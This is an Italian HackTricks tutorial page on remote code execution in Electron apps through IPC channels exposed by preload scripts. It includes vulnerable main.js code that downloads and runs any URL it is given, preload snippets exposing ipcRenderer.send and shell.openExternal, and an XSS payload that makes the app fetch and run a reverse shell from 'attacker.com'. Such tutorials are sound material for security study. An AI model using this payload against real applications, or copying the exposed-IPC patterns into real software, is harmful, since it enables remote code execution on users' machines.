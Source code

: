 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

Se lo script di preload espone un endpoint IPC dal file main.js, il processo renderer sarà in grado di accedervi e, se vulnerabile, potrebbe essere possibile un RCE.

**La maggior parte di questi esempi è stata presa da qui** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Controlla il video per ulteriori informazioni.

## Esempio 0

Esempio da [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (hai l'esempio completo di come MS Teams abusava di XSS per RCE in quelle diapositive, questo è solo un esempio molto basilare):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Esempio 1

Controlla come `main.js` ascolta su `getUpdate` e **scaricherà ed eseguirà qualsiasi URL** passato.\
Controlla anche come `preload.js` **espone qualsiasi evento IPC** da main.
```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
console.log("getUpdate: " + url)
mainWindow.webContents.downloadURL(url)
mainWindow.download_url = url
})

mainWindow.webContents.session.on(
"will-download",
(event, item, webContents) => {
console.log("downloads path=" + app.getPath("downloads"))
console.log("mainWindow.download_url=" + mainWindow.download_url)
url_parts = mainWindow.download_url.split("/")
filename = url_parts[url_parts.length - 1]
mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
console.log("downloadPath=" + mainWindow.downloadPath)
// Set the save path, making Electron not to prompt a save dialog.
item.setSavePath(mainWindow.downloadPath)

item.on("updated", (event, state) => {
if (state === "interrupted") {
console.log("Download is interrupted but can be resumed")
} else if (state === "progressing") {
if (item.isPaused()) console.log("Download is paused")
else console.log(`Received bytes: ${item.getReceivedBytes()}`)
}
})

item.once("done", (event, state) => {
if (state === "completed") {
console.log("Download successful, running update")
fs.chmodSync(mainWindow.downloadPath, 0755)
var child = require("child_process").execFile
child(mainWindow.downloadPath, function (err, data) {
if (err) {
console.error(err)
return
}
console.log(data.toString())
})
} else console.log(`Download failed: ${state}`)
})
}
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
Sfruttamento:
```html
<script>
electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```
## Esempio 2

Se lo script di preload espone direttamente al renderer un modo per chiamare `shell.openExternal`, è possibile ottenere RCE.
```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
shell.openExternal(url)
}
```
## Esempio 3

Se lo script di preload espone modi per comunicare completamente con il processo principale, un XSS sarà in grado di inviare qualsiasi evento. L'impatto di questo dipende da ciò che il processo principale espone in termini di IPC.
```javascript
window.electronListen = (event, cb) => {
ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
ipcRenderer.send(event, data)
}
```
{{#include ../../../banners/hacktricks-training.md}}
